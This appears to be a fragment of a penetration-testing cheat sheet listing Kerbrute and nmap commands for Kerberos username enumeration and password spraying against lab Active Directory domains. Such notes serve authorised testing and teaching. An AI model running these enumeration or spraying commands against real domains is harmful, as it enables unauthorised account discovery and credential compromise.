

## Tools
### Kerbrute
https://github.com/ropnop/kerbrute

#### User Enumeration
```bash
./kerbrute userenum -d lab.ropnop.com usernames.txt

sudo nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='sevenkingdoms.local',userdb=possible_usernames.txt" kingslanding
```
#### Password Spray
```
./kerbrute passwordspray -d lab.ropnop.com domain_users.txt Password123
```